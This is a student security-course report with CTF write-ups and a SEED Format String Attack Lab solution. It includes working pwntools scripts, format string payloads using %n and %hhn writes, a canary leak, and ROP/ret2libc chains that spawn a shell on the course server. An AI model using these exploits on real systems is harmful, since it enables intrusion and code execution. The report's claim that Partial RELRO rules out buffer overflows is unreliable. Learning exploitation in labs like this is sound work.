

# Trabalho Realizado na Semana 6 e 7

## CTF

### Desafio 1

After executing `checksec` with `program`, the result was:

```bash
RELRO           STACK CANARY      NX            PIE            RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     Yes	0		2	program
```
This program has **Partial RELRO**, meaning that there is no risk of a buffer overflow. Because there is a **stack canary**, stack smashing is mitigated (except by a leak or bruteforce). **NX** is enabled, therefore it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable. Since there is no **PIE**, **ROP** attacks aren't difficulted.

After some time exploring the source code, we found some important information about this executable:

```
- In the line 27, a user input is printed and the user has control over the first argument of printf.
- Giving the control of the first argument of printf to the user has memory leaks vulnerabilities, such as read or changing the value of variables.
- The address of flag is 0x0804c060
```

We used the printf function to make a format string attack. The following python code was used to get the flag:

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08"+b"%s")
p.interactive()

```

Flag:
```
flag{3a0f46cdeaa85626428c12879b84703f}
```

### Desafio 2

This challenge is very similar to the first one in the way that the user controls the printf call but it has some key differences:

```
- Instead of only reading the value of the global variable, we have to change it to 0xbeef in order to open up a bash
- The bash is used to get the flag with: cat flag.txt
- The address of the key value is 0x0804c034.
```

Similarly to the first one, we needed to use a format string attack but with some changes. Instead of reading the value, we needed to write an integer value to match 0xbeef. 0xbeef is 48879 in decimal, and this is the value that the `key` variable must have. 

In printf(), `%n` is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of `%n`. We could use this feature to store the wanted value in the `key` variable. Using the following code we are able to achieve that:

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x%1$n")
p.interactive()
```

This translates to writing the address of the `key` variable in the stack, in little endian format. After that, as we already written 4 bytes, we only need 48875 more to make 0xbeef, so we read them from the program and store them in the `key` variable. After that, the comparison turns true and we get the shell.

Flag:
```
flag{91b434959469afb533a5516651d74c98}
```

### Formatted Canary

Using `objdump -d formatted_canary` we can see that there is a function called `win` that we need to call in order to get the flag.

The buffer size is 40 bytes and the function to read name reads 256 bytes.
Canary is put in the stack before the loop, so we can probably read it. 

Using ghidra we can decompile the binary and see what is the flow of the function: 


Here we can see that according to Ghidra input is stored at offset `-0x38`. 

With a cylcic input of just 64 bytes (`AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP`) we are able to find out two things in gdb. The first is that the `$rbp` has the value `MMMMNNNNOOOOPPPP`. This will be the return address of the `win` function that we need to call. For this function to be called, the program will check the canary, which has the value `KKKKLLLL`. This is where we will need to put our canary value. The payload will then be:

```
"A"*40 + canary + function_address
```

Using `info functions` inside GDB, we get the `win` function address which is: `0x000000000040077d`.


In order to get the offset of the buffer in the stack we can use the input:
```
"AAAAAAAA" + ",%llx" * 30
```

The output will then be AAAAAAAA followed by 30 8-byte values read from the stack. When we find the value `4141414141414141` it means that is the start of our buffer, since we wrote 8 "A"s to the stack. With this, we found out that buffer is in offset of 8 longs, so canary is in offset 13.

We can get the canary by changing the name to `%13$llx` and printing it. After getting this value of the canary, we can then build our payload that will call the desired function.

Flag:
```
flag{th1s_p00r_c4nary_w4s_k1ll3d_by_4_fmt_str1ng}
```

### Secret

For this CTF we needed to use a simple ROP chain to get the flag. Using `objdump -t simple_rop` we can see that there is a variable called flag on the heap with the address `0x0804a040`. 

Since there is no format string vulnerabilities, we cannot just print the value of the flag, but instead, we can use a buffer overflow attack, to change the return address of the function, to return to some code we want. Since we are using the libc function `puts` to print a line to the console, we can get the function address from gdb, which is `0x08048390`.

In order to successfully call the puts function, we need to leave the stack in the state that it would be if there was actually a puts call. This means that we need to put in the stack the main return address, and the argument to puts. This argument is a pointer to a string, which is very usefull since we already have the location of where the flag string is.

After finding out that the `$esp` offset was 28 bytes, we could get the flag sending the following payload:

```
"A" * 20 + puts + main + flag
```

With this payload, we can successfully call the puts function when returning to main and the flag is printed.

Flag:
```
flag{3asy_r0p_3asy_l1fe}
```

When trying this challenge, we tried to solve it in another way, which was to use a ret2libc attack in order to create a shell in the server. In order to get this, we needed to get the base of the libc library. To get this address, we could use the same method as the previous, but instead of printing the flag, we would print the libc puts address. To get this address we need to call the puts function but in the argument we need to pass the puts address of the global offset table (GOT) which points to the real address of the puts function in the libc library. Using the command `got` inside gdb, we get the puts@GOT value which is `0x804a010`. 

With the following payload we are capable of leaking the puts address and return to the beginning of the main function:

```
"A" * 20 + puts@plt + main + puts@got
```

After building the first stage of the payload, we need to check what is the version of the libc, in order to get the offset needed to call the system function. The value of the puts is `0xf7dedcd0` so, using the website https://libc.nullbyte.cat/ and putting in the query the values `puts` and the last 3 bytes (cd0), we can get the version of the libc library which is: libc6_2.31-0ubuntu9.3_i386.

Knowing the library, we get the offsets of the usefull positions:



With these offsets we can calculate the correct position of each function we need according to the position of the puts. After that, we can then build our payload to run the system function with a `\bin\sh` string as argument. The following payload was used to open a shell on the server:

```
"A" * 20 + system + "AAAA" + str_bin_sh
```

With the shell, and using `cat flag.txt` we get the following flag:
```
flag{congratulations!-this-is-not-the-intended-way-to-solve-this-challenge;)}
```

---

## Format String Attack Lab

### Task 1

Creating a `badfile` with `content = ("%s"*750).encode('latin-1')` and sending it as input of the program, it will crash, as it will try to read 750 strings from the stack.

### Task 2

#### 2.A

To get the stack data the following script was executed to build the `badfile`:

```py
#!/usr/bin/python3
import sys

content = ("AAAA" + " %x"*64).encode('latin-1')

with open('badfile', 'wb') as f:
  f.write(content)
```

With 64 `%x` we are able to get the `41414141` corresponding to the `AAAA` string.

#### 2.B

To get the secret message, the following script was used to build the `badfile`:

```py
#!/usr/bin/python3
import sys

address = 0x080b4008
content = (address).to_bytes(4,byteorder='little')

s = ("%64$s").encode('latin-1')
content += s

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We start of by writting to the stack the address that we want to read. From the server output, we know that the address is `0x080b4008`. If we send `%s`, printf will try to read a string from an address. To specify which address we should use, we can add `<offset>$` between `%` and `s`. The offset is, as we have seen before, the number of `%x` that we need to print to get the beggining of the stack. As the number was 64, if we use the format specifier `%64$s` after the address, the program will try to read a string from the address written in the 64th position in the stack, which will be the address that we have just put there (the secret message's address). Sending this input to the server, we get the secret message, which is:

```
A secret message
```

### Task 3

#### 3.A

To change the `target` variable value, the following script was used to build the `badfile`:

```py
#!/usr/bin/python3
import sys

address = 0x080e5068
content = (address).to_bytes(4,byteorder='little')
s = ("%64$n").encode('latin-1')
content += s

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The script builds the string the same way as the previous task, putting the address of the variable up front and then a format specifier, but this specifier this time is a `%n`. In printf(), `%n` is a special format specifier which instead of printing, causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of `%n`. We could use this feature to store the number of bytes written so far (4 because of the address) in the `target` variable. 

With this input, the server output is the following, which means that we have successfully changed the value of the `target` variable:

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd450
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 9 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd378
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hThe target variable's value (after):  0x00000004
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

#### 3.B

For this task, we need to build the script the same way as the previous one, but with some changes. The following script was the result:

```py
#!/usr/bin/python3
import sys

address = 0x080e5068
content = (address).to_bytes(4,byteorder='little')
s = ("%20476x%64$n").encode('latin-1')
content += s

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

In order to change the value to `0x5000`, we can't just simply write 20480 (`0x5000` in decimal) bytes to the file, as the program will only read at most 1500. First of all, we write the 4 bytes for the address. After that, the remaining 20476 bytes can be filled using the `%x` format specifier with a fixed width. With `%[width]x`, the program will read `width` bytes and try to print them. Then, the specifier `%n` will stop it from printing those bytes, but will still count them, so the value stored in the address will be the value that we want. After sending this input, the server output is the following:

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd450
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 16 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd378
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | [output here]The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

**Note:** The `[output here]` in the server was replaced in orther to keep it clean. In the original server, as `%n` prints empty spaces, the ouput ocupied a very large amount of empty space in the console.

#### 3.C

To change the value to `0xAABBCCDD`, we needed to use `%hhn` and a different approach to building the script. The following script was used to get the input:

```py
#!/usr/bin/python3
import sys

address1 = 0x080e506B
content = (address1).to_bytes(4,byteorder='little') # content has 4 bytes
address2 = 0x080e506A
content += (address2).to_bytes(4,byteorder='little') # content has 8 bytes
address3 = 0x080e5069
content += (address3).to_bytes(4,byteorder='little') # content has 12 bytes
address4 = 0x080e5068
content += (address4).to_bytes(4,byteorder='little') # content has 16 bytes

content += ("%154x%64$hhn").encode('latin-1') # AA = 170
content += ("%17x%65$hhn").encode('latin-1') # BB = 187
content += ("%17x%66$hhn").encode('latin-1') # CC = 204
content += ("%17x%67$hhn").encode('latin-1') # DD = 221

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

As we were using the `%hhn` format specifier, the address points to a char, which means that the address only points to 1 of the 4 bytes of the `target` variable. In order to change all the bytes, we needed 4 addresses. The base address was `0x080e5068`, so the other 3 were `0x080e5069`, `0x080e506A` and `0x080e506B`. With these addresses, we can successfully point to every byte of the `target` variable.

After that, we need to change their contents. Starting with the most significant byte, the one with address `0x080e506B`, we need to change it to `AA` which is 170 bytes. As we have already written 16 bytes, we only need 154 more. The second byte, `0x080e506A`, needs to be changed to `BB`, which is 187 bytes, in decimal. As we have already written 170 bytes for the previous `AA`, we only need 17 more. The same procedure to the other two bytes and we end up with the input ready to be sent to the server. After sending it, the output of the server is the following:

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd450
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 61 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd378
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | kjih                                                                                                                                                  11223344             1000          8049db5          80e5320The target variable's value (after):  0xaabbccdd
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

As we can see, the `target` variable was successfully changed to `0xaabbccdd`.